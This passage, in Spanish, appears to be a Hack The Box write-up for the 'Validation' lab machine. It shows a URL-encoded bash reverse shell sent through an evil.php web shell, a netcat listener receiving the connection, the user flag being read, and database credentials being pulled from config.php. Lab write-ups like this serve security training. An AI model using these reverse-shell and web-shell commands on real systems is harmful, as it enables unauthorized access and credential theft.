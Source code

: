 ```
bash -c 'bash -i >%26 /dev/tcp/10.10.14.17/1234 0>%261'
```

Cabe destacar que corresponde a una variación de las reverse shell de [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), debido a hay que aplicar url encode a los caracteres especiales para que los pueda interpretar, entonces:

```
http://10.10.11.116/evil.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.17/1234 0>261'
```


Luego de ejecutar la instrucción, ya teniamos `netcat` previamente escuchando por el puerto 1234:

```
sudo nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.116] 37056
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ whoami
whoami
www-data
```

Podemos observar que hemos ingresado correctamente a la máquina.

```
www-data@validation:/var/www/html$ ls
ls
account.php  config.php  css  index.php  js
```

Ahora buscaremos la flag de usuario:
```
www-data@validation:/home/htb# cat user.txt
cat user.txt
97661213f37a875cc5951
```

¡Bien! tenemos la flag.

## [](#header-2)Escalada de privilegios


En primer lugar, inspeccionaremos estos archivos por si hay información:

```
www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
Observamos un usuario y una contraseña. Sin embargo, el usuario no existe:
```
www-data@validation:/var/www/html$ id uhc
id uhc
id: 'uhc': no such user
```
